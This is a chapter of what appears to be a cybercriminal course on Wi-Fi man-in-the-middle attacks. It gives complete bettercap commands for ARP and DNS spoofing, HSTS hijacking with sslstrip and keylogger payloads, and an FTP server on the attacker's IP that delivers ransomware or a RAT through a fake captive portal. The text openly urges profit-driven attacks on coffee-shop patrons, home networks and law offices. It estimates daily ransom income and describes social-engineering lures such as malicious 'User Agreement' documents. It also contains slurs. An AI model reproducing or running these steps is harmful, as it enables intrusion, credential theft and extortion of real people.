


Network and MITM attacks
One method to rule them all
There will be points throughout this course marked in
BLUE
. These points are useful to fully grasp the concepts taught and help with understanding techniques and explanations on various topics. It's important that when you read them you stop and take the time to do what they say or follow up with them. The syntax of code to be typed into Terminal or the command line will be
RED
. So anytime you see something in
RED
you know that it's syntax code and should be entered into Kali, Terminal, Windows command line, etc.
You should have been able to MITM yourself last chapter and see how it's done on others. Practice does make perfect. You can now re-direct people to your web server and show them whatever landing attack page you want them to see. If you're launching these type of attacks while at a local coffee shop it's a good idea to design the landing page to appear from the coffee shop itself. The more creative you are with the design of your custom webpages the more believable it'll appear to the people you're targeting. Remember, the more professional looking your landing pages are the better.
With this next attack we're going to intercept
ALL
web requests and re-direct people on the network to our web server. Our goal in this attack is to completely fuck up everyone's internet connection who's connected to the same network as you. You can either target one person on the network or the whole network. However, if you're targeting the whole network expect people to raise their eyebrows when everyone at the coffee shop experiences the attack at the same time. The main goal with this attack is forcing people to visit our web server and present them with our attack landing webpage we've designed in order to deliver malware or for phishing purposes.
At the end of the previous chapter we talked about MITMf and re-directing all web requests (HTTP and HTTPS) to our web server. We know that since we're intercepting ALL web requests we need to deliver the malware over a different protocol so people are able to download it. Does this make sense? Since they would try to download ransomware.exe over HTTP/HTTPS they will always be displayed your landing page instead of actually downloading your malware. For that reason we'll deliver our malware over File Transfer Protocol (FTP). Stupid but super easy for hackers at all levels for a no hassle malware delivery method to your targets.
Alright let's get into it.
Like everybody else when we're browsing the internet and all of a sudden webpages aren't loading we develop certain habits in order to "test" our internet connection. When our web browser fails to load any website we all have these things/habits we do in order to see if our computer is working and that we have internet connection. For example, think of what you do when all of a sudden your internet stops working while you're browsing the internet. Maybe you check to see if you're still connected and the quality of your connection. Some people may enter random letters on their keyboard into the URL bar and hit enter to see if anything loads, will visit known websites or bookmarked sites, refresh the page, etc. I know most would ping out to see if anything is getting out but the average person has certain habits.
The point is when people are unable to visit a website or feel like there's a problem with their internet connection they:
A) Check to make sure they're still connected to the Wi-Fi network.
B) Try and visit any website to see if they can connect to it.
C) Troubleshoot the internet connectivity to the best of their abilities.
C) Wait for it to resolve itself.
D) Grab a gram of the best heroin possible and fade out for an hour or so.
This is where this next type of attack comes into play. The people on the network had internet connectivity, you showed up, connected to the network, and now their internet connection no longer works. It's at that moment when you're attack is waiting for them.
Remember you just don't want to walk into a place with a dark hood and HACK ME TITS sticker on your laptop. More be thinking of sitting at whatever location with Wi-Fi and compromising the business or thing of interest across the street. You should be thinking about investing more money into your Wi-Fi hacking gear by purchasing more Alfa networks cards and proper antennas.
Quick story. Friend and me growing up always talking about buying a van like the federal agents have. You know those in the movies that couple of dudes in the back hacking away. We would joke about making that our "work" space with mobile antennas the whole thing. Pretty much the same Wi-Fi hacking setup those Russians had from Act I. Refresh your minds.
Click to read and learn about the Russians Wi-Fi hacking busts
Anyways we thought we could park the van where we could in Neighborhoods, hack all the home Wi-Fi networks in the area, compromise their routers, re-direct everything to our "Router Firmware Update" webpage which delivers ransomware to them. If you made this a 9-5 type job how many infections could you get per day?
For arguments sake let's say 30 people you're able to compromise per day. Ask $250 USD for them to get their files back and adjust accordingly. $7,500 USD per day potential? You see. Depending on what type of cybercriminal you aim to be will dictate your income. You may need to invest into whatever setup you think you might need to be successful but make no mistake you need some sort of HQ. Let's get the fuck back on track.
We want to intercept all web browser requests forcing everyone on the network to be re-directed to our web server and entice them to download our malware. The example below is a basic example but you'll be able to modify it to fit whatever you're trying to accomplish. As stated before you want to tailor these attacks to the people you're after and social engineer them into downloading your malware. This is out of scope for this guide as I cannot teach creativity.
In Kali open up a new Terminal window and type the following:
git clone https://github.com/byt3bl33d3r/MITMf.git
sudo cp ~/MITMf/config/captive/portal.html /var/www/html/index.html
pip3 install pyftpdlib
This will install an easy FTP server via python that we can use.
Now to the method...
Bettercap has these things called "caplets" which come preinstalled that are modules that you're able to load to get a certain task done. We're going to use a bettercap caplet along with a combination of another
For this example:
My attacker computer IP is 192.168.2.233
My target computer IP is 192.168.2.100
In Kali open up a new Terminal window and type the following:
sudo service apache2 restart
sudo bettercap
All the following commands below are to be entered into the bettercap window.
net.probe on
Wait 30 seconds for it to discover network hosts.
net.probe off
net.show
This will show you the targets on the network. Pay attention for your targets IP.
set arp.spoof.targets TARGET_IP
My example:
set arp.spoof.targets 192.168.2.100
To attack the whole network:
set arp.spoof.targets *
set arp.spoof.internal true
set dns.spoof.address ATTACKER_IP
My example:
set dns.spoof.address 192.168.2.233
set hstshijack.log /usr/share/bettercap/caplets/hstshijack/ssl.log
set hstshijack.ignore *
set hstshijack.targets *.cn,*.org, www.*, *.com, *.net
set hstshijack.replacements *.ce, *.orq, wvvw.*,*.corn,*.nel
set hstshijack.obfuscate false
set hstshijack.encode true
set hstshijack.payloads *:/usr/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/share/bettercap/caplets/hstshijack/payloads/keylogger.js,*.google.com:/usr/share/bettercap/caplets/hstshijack/payloads/google.js,google.com:/usr/share/bettercap/caplets/hstshijack/payloads/google.js
The above command "set hstshijack.payloads ..." is all one line so please copy and paste it.
http.proxy on
arp.spoof on
dns.spoof on
Leave the bettercap window running.
This attack will completely break the web browser and not allow the target to visit any HTTPS or HTTP website. Any web requests will be re-routed to our attacker page. If they type anything into the URL bar in Google Chrome when running this attack Chrome will recommend the HTTP version of what they're looking for and "help" the victim navigate to our web attack page which is great for us!
In order to deliver your malware in the future you would need to edit /var/www/html/index.html to reflect your own file. Remember, in this chapter we copied the ~/MITMf/config/captive/portal.html to /var/www/html/index.html.
For my example my malware will be called "DANGER.exe" and the file is located in "/var/www/html" which is the default Apache2 web server directory. If you had a RAT you would need to put the file into the "/var/www/html" directory and adjust the filename in /var/www/html/index.html to reflect your own RAT executable name. Obviously!
We're going to navigate to /var/www/html and run a FTP server delivering the contents of that directory and we're going to alter /var/www/html/index.html to reflect our executable name. This will allow the target to download our malware over FTP since we're re-directing everything web related on the network.
In Kali open up a new Terminal window and type the following:
cd /var/www/html
python3 -m pyftpdlib -w
This will run a FTP server on port 2121. Leave this window running.
If you're familiar with python the above command "python3 -m pyftpdlib -w" is the "python -m SimpleHTTPServer 80" equivalent but for FTP. In a nut shell it's a super easy way of bringing up a FTP server without config files and shit. You can script all this shit so it's automatic depending on your coding levels. Basic shit commander Cobra.
In Kali open up a new Terminal window and type the following:
sudo gedit /var/www/html/index.html

Change "CaptiveClient.exe" on line 23 to "ftp://ATTACKER_IP:2121/YOUR_FILE.exe"
My Example in the screenshot below:
ftp://192.168.2.233:2121/DANGER.exe

Save the file and close it.
Now that we have the /var/www/html/index.html file configured (you would need to replace DANGER.exe with your RAT filename. This should be obvious!) the attack is ready. In the future you'd want to run the FTP server before using bettercap.
This attack will break all HTTPS and HTTP websites the victim is trying to browse and will re-direct them to your web server with your malware/ransomware waiting to be downloaded over FTP. Is this discreet? Not really no. This is why you need to develop a plan and social engineer the people on the network to download your malware. The average user shouldn't notice anything at all but FTP is a plaintext protocol so anyone sniffing the network traffic (more important on corporate networks) would be able to see an executable being downloaded over the network. Again, your targets should be selected and your cyber-attacks targeted. I don't think any home network or small business is investing into network monitoring. Let's be serious.
You can now launch these types of attacks at your local coffee shop, kick back, relax while sipping your latte reading the paper waiting for people to download your malware.
OR
You could be aiming your directional antenna at a lawyer's office from your balcony to compromise their Wi-Fi network and cause a little MITM ransomware fuckery problem for them. Whatever man think about what type of hacks that you can do with this type of mindset. Make hacking financially benefit you where ever the fuck you are in the world.
Usually I would run this attack for an hour before stopping it but whatever works for you. Anyone who's connected to the network will either be tricked into downloading malware or be forced to disconnect. That's a 50/50 of what will occur. They will never obtain web internet access and they're being coerced into downloading malware in frustration to gain internet access. Obviously this isn't going to work %100 of the time but you'll infect more people than you think. If you have functioning ransomware infecting 3-5 people a day is profitable none the less. Aim for a little each day here and there. World domination later.
The success of this attack will come down to the creativity and legitimacy of the webpage you're re-directing people to. If the webpage looks like shit and looks like it was coded by a 5-year old child then expect people to question the legitimacy of it. Whereas, if you're doing this on a small business corporate network you would want to include the company logo along with something along the lines of "Please update your system to install our VPN program for encrypted internet access while on this network" and make the webpage look professional giving it legitimacy. This is crucial when it comes to success. Make sure there are no spelling errors, grammar errors, etc. and make the landing web page people are being re-directed to appear very legit.
If you're on a Starbucks network re-direct people to a Starbucks rewards website offering the new Starbucks App to get internet access. Be creative man I cannot teach creativity so this is all on you!
All of that being said you'll soon come to realize that many people aren't going to download VIRUS.exe and that most web browsers will potentially block the download of a known malicious file. What malware did you purchase? Did you buy a crypter for it? Decent or trash ransomware you have? A pain in the ass I know but you need to invest into proper malware too! Invest into yourself comrades come on.
Here's some of my methods.
There are times when I make my landing attack webpages developed in a way to appear as an "Internet User Agreement" webpage. Like any "User Agreement" people on the network must click "Accept" in order to get access to the internet. Imagine you work at a small company and an "Internet Usage User Agreement" prompts you while browsing the internet using your work computer at the start of your day. Your goal should be aiming for the lowest hanging fruit employee or person as most will click and follow the "company" directions. :)
Creativity friends is the key to infecting the hordes of retards out there.
If I'm doing this against a home network I tailor it to the specific make/model of their router or their Internet Service Provider (ISP).
In both cases just talked about when they click on "Accept" on the landing webpage they are prompted to download "User_Agreement.doc". Of course, this is a malicious Microsoft document that once ran will infect the target with my malware. Most people understand what a User Agreement is and usually know they need to click "Accept" somewhere in order to get internet connectivity and doing this in a document is more familiar then downloading a file called "DANGER.exe". Creativity yes?
You have to modify your attacks these days and cannot rely on sending a .exe without problems. Specially if it's malware and not code signed, flagged by AV, and whole other fucking nuisances.
By finishing this course you're now able to MITM people on the network and re-direct them to your attack landing page. You could put whatever webpage you desire to your victims. Obviously, this could be a phishing page or similar. You should now be aware that if you're performing a MITM attack on the network with a phishing expedition or re-directing anything that has HSTS enabled you will not be successful. However, you can intercept HTTPS traffic but the victims will be presented with warnings and need to click through them so it's best to deliver them to where your malware/ransomware is waiting. I'll be making a future phishing course which is an essential skill to enhance your cybercriminal capabilities.
Conclusion